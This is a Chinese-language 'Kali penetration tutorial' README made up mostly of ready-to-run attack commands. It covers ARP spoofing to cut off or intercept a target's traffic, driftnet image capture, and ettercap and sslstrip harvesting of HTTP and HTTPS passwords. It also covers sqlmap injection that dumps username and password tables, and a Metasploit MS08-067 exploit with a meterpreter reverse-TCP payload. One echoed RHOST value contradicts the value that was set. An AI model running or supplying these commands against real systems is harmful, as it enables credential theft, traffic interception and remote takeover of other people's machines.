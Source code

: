 # Kali渗透教程


[001.arpspoof断网攻击](arpspoof/001.arpspoof断网攻击.md)
---
```bash
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```

[002.arpspoof流量转发](arpspoof/002.arpspoof流量转发.md)
---

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```


[003.arpspoof+driftnet截取目标主机浏览的图片](arpspoof/003.arpspoof+driftnet截取目标主机浏览的图片.md)
---

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```

开启新的终端

```bash
driftnet -i eth0
```

[004.arpspoof+ettercap获取http账号密码](arpspoof/004.arpspoof+ettercap获取http账号密码.md)
---


```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```

开启新的终端

```bash
ettercap -Tq -i eth0
```

[005.arpspoof+ettercap+sslstrip获取https账号密码](arpspoof/005.arpspoof+ettercap+sslstrip获取https账号密码.md)
---

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```

开启一个新的终端

```bash
sslstrip -a -f -k
```

开启一个新的终端

```bash
ettercap -Tq -i eth0
```

[001.sqlmap注入asp程序](sqlmap/001.sqlmap注入asp程序.md)
---

```bash
sqlmap -u "http://www.example.com/news.asp?id=110" 
```


```bash
sqlmap -u "http://www.example.com/news.asp?id=110"   --tables
```

```bash
 sqlmap -u "http://www.example.com/news.asp?id=110" --columns -T "user"
```

```bash
 sqlmap -u "http://www.example.com/news.asp?id=110" --dump -C "username,password" -T "user"
```

[002.sqlmap注入php程序](sqlmap/002.sqlmap注入php程序.md)
 ---
 
 ```bash
 sqlmap -u "http://www.example.com/news.php?id=110" 
 ```

 ```bash
 sqlmap -u "http://www.example.com/news.php?id=110"  --is-dba
 ```
 
 ```bash
  sqlmap -u "http://www.example.com/news.php?id=110"  --dbs
 ```
 
 ```bash
  sqlmap -u "http://www.example.com/news.php?id=110" --current-db
 ```
 
 ```bash
  sqlmap -u "http://www.example.com/news.php?id=110" --tables -D "db"
 ```
  
 ```bash
  sqlmap -u "http://www.example.com/news.php?id=110" --colums -T "admin_user" -D 
 ```

[003.sqlmap之cookie注入](sqlmap/003.sqlmap之cookie注入.md)
 ---

 ```bash
 sqlmap -u "http://www.example.com/news.php" --cookie "id=110" --level 2
 ```
 
 ```bash
 sqlmap -u "http://www.example.com/news.php" --columns -T "user" --cookie "id=110" --level 2
 ```
 
 ```bash
 sqlmap -u "http://www.example.com/news.php" --dump  -C "username,password" -T "user"  --cookie "id=110" --level 2
 ```

[001.metasploit使用简介](metasploit/001.metasploit使用简介.md)
---

##启动metasploit
```bash
root@kali:~# msfconsole
```

```                                              
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


Frustrated with proxy pivoting? Upgrade to layer-2 VPN pivoting with
Metasploit Pro -- learn more on http://rapid7.com/metasploit

       =[ metasploit v4.11.5-2016010401                   ]
+ -- --=[ 1517 exploits - 875 auxiliary - 257 post        ]
+ -- --=[ 437 payloads - 37 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]
```
###基本命令
```bash
msf > help
```

```bash
msf > show
```

```bash
msf > clear
```
###设置选项并攻击
```bash
msf > use exploit/windows/smb/ms08_067_netapi 
```

```
msf exploit(ms08_067_netapi) > show options
```

```
msf exploit(ms08_067_netapi) > set RHOST 192.168.1.3
RHOST => 219.225.51.172
```

```
msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
```

```
msf exploit(ms08_067_netapi) > show options
```

```bash
msf exploit(ms08_067_netapi) > set LHOST 192.168.1.2
LHOST => 192.168.1.2
```

```bash
msf exploit(ms08_067_netapi) > exploit
```




























